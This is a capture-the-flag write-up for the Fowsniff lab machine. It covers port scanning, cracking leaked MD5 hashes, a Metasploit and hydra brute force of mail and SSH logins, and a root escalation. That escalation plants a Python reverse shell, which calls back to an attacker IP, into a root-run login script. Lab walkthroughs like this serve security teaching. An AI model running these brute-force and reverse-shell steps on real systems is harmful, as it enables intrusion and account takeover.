

What we can learn from this machine:
* Enumerations
* Hash crack
* Hydra bruteforce
* Metasploitable pop3 login bruteforce
## Using nmap, scan this machine. What ports are open?
Running nmap scan :
```
# Nmap 7.91 scan initiated Sat Jun 19 15:43:03 2021 as: nmap -sC -sV -A -oN scans/nmap-scan 10.10.209.184
Nmap scan report for 10.10.209.184
Host is up (0.21s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 90:35:66:f4:c6:d2:95:12:1b:e8:cd:de:aa:4e:03:23 (RSA)
|   256 53:9d:23:67:34:cf:0a:d5:5a:9a:11:74:bd:fd:de:71 (ECDSA)
|_  256 a2:8f:db:ae:9e:3d:c9:e6:a9:ca:03:b1:d7:1b:66:83 (ED25519)
80/tcp  open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Fowsniff Corp - Delivering Solutions
110/tcp open  pop3    Dovecot pop3d
|_pop3-capabilities: UIDL TOP USER PIPELINING CAPA RESP-CODES SASL(PLAIN) AUTH-RESP-CODE
143/tcp open  imap    Dovecot imapd
|_imap-capabilities: ID OK LOGIN-REFERRALS more Pre-login IMAP4rev1 post-login AUTH=PLAINA0001 listed SASL-IR ENABLE have capabilities LITERAL+ IDLE
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jun 19 15:44:12 2021 -- 1 IP address (1 host up) scanned in 68.68 seconds
```

Found : port 22 ssh open to ubuntu box, port 80 http open to website named Fowsniff Corp - Delivering Solutions, port 110 pop3 open and port 143 imap open.

## Using the information from the open ports. Look around. What can you find?

Let's go to our web page that shows nmap. After we get to web page you can see this. 


Before we enumerate further more let's start a gobuster and nikto scan. After sometime I read the whole home page on that web page. Looks like website got hacked. They said their twitter acc is hack too. 


Before we check that twitter let's see what is our gobuster found. Nikto nothing found interesting. 

```
/images               (Status: 301) [Size: 315] [--> http://10.10.209.184/images/]
/assets               (Status: 301) [Size: 315] [--> http://10.10.209.184/assets/]
/index.html           (Status: 200) [Size: 2629]
/security.txt         (Status: 200) [Size: 459]
/README.txt           (Status: 200) [Size: 1288]
/robots.txt           (Status: 200) [Size: 26]
/server-status        (Status: 403) [Size: 301]
/LICENSE.txt          (Status: 200) [Size: 17128]
```
When we go into that **/security.txt** you can see this message from the hacker.


## Using Google, can you find any public information about them?

Let's check that twitter acc maybe hacker put something there to us.


We got a paste-bin link. Nice !! When we got in to that paste bin link you can see the **password leaks**.


## Can you decode these md5 hashes? You can even use sites like hashkiller to decode them.

let's crack those hashes with hashkiller. After I crack the hashes this was my result.

```
0e9588cb62f4b6f27e33d449e2ba0b3b:carp4ever
19f5af754c31f1e2651edde9250d69bb:skyler22
1dc352435fecca338acfd4be10984009:apples01
4d6e42f56e127803285a0a7649b5ab11:orlando12
8a28a94a588a95b80163709ab4313aa4:mailcall
90dc16d47114aa13671c697fd506cf26:scoobydoo2
ae1644dac5b77c0cf51e0d26ad6d7e56:bilbo101
f7fd98d380735e859f8b2ffbbede5a7e:07011972
```
## Using the usernames and passwords you captured, can you use metasploit to brute force the pop3 login?

Documentation : https://www.rapid7.com/db/modules/auxiliary/scanner/pop3/pop3_login/

We need to cut out user list and passwords. Let's make this fast with this simple command.

For users : awk -F'@' '{print $1}' hashes.txt > users.txt
For passwords : sed -n 's/.*://p' crack.txt > pass.txt

This commands maybe change it's on you.

Now we got users file and password file. Let's enter this info into the metasploitable. Following are my commands to metasploitable.

```bash
msfconsole
use auxiliary/scanner/pop3/pop3_login
set RHOSTS 10.10.209.184
set USER_FILE users.txt
set PASS_FILE pass.txt
set VERBOSE true
set STOP_ON_SUCCESS true
run
```
You can disable verbose mode here I was looking at a brute force what is going on. If you don't want to watch the bruteforce process you can set it into false.

## What was seina's password to the email service?

```bash
[+] 10.10.209.184:110     - 10.10.209.184:110 - Success: 'seina:scoobydoo2' '+OK Logged in.  '
```
We got a hit on scoobydoo2 on seina user.

## Can you connect to the pop3 service with her credentials? What email information can you gather?

Let's log into to the pop3 mail server with netcat. If you don't know what to do after login this web article may help you.

https://electrictoolbox.com/pop3-commands/ : About pop3 commands

## Looking through her emails, what was a temporary password set for her?

After viewing our first email to seina. I found this ssh credentials on that mail.



## In the email, who send it? Using the password from the previous question and the senders username, connect to the machine using SSH.

We got our ssh password but we got lot of users How we know who is correct one. For that we can run a hydra attack with our found password.


We got our user as **baksteen**.

Our credentials :
* login: baksteen   
* password: S1ck3nBluff+secureshell

## Once connected, what groups does this user belong to? Are there any interesting files that can be run by that group?

Let's connect into the ssh


```bash
baksteen@fowsniff:~$ sudo -l
[sudo] password for baksteen: 
Sorry, user baksteen may not run sudo on fowsniff.
```
We can't run sudo here. Okay then !! let's run a linpeas. Let's see What we got here !!


We found this cube.sh file in **/opt/** directory. when we look into the **/etc/update-motd.d** folder and the 00-header file shows that the /opt/cube/cube.sh file is run when a user connects to the machine using SSH (and that it will run as the root user).  

If we edit this file we can get into the root. 

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.2.35",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.f$$p2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Put this rev shell into that cube.sh file and exit on ssh service and relog into the ssh service. You can get the shell like this.

```bash
┌─[✗]─[visith@parrot]─[~/CTF/thm/Fowsniff-CTF]
└──╼ $nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.9.2.35] from (UNKNOWN) [10.10.209.184] 42590
/bin/sh: 0: can't access tty; job control turned off
# cd /root
# ls
Maildir
flag.txt
# cat flag.txt
   ___                        _        _      _   _             _ 
  / __|___ _ _  __ _ _ _ __ _| |_ _  _| |__ _| |_(_)___ _ _  __| |
 | (__/ _ \ ' \/ _` | '_/ _` |  _| || | / _` |  _| / _ \ ' \(_-<_|
  \___\___/_||_\__, |_| \__,_|\__|\_,_|_\__,_|\__|_\___/_||_/__(_)
               |___/ 

 (_)
  |--------------
  |&&&&&&&&&&&&&&|
  |    R O O T   |
  |    F L A G   |
  |&&&&&&&&&&&&&&|
  |--------------
  |
  |
  |
  |
  |
  |
 ---

Nice work!

This CTF was built with love in every byte by @berzerk0 on Twitter.

Special thanks to psf, @nbulischeck and the whole Fofao Team.
```

You pwn the machine !! 

Thx for reading 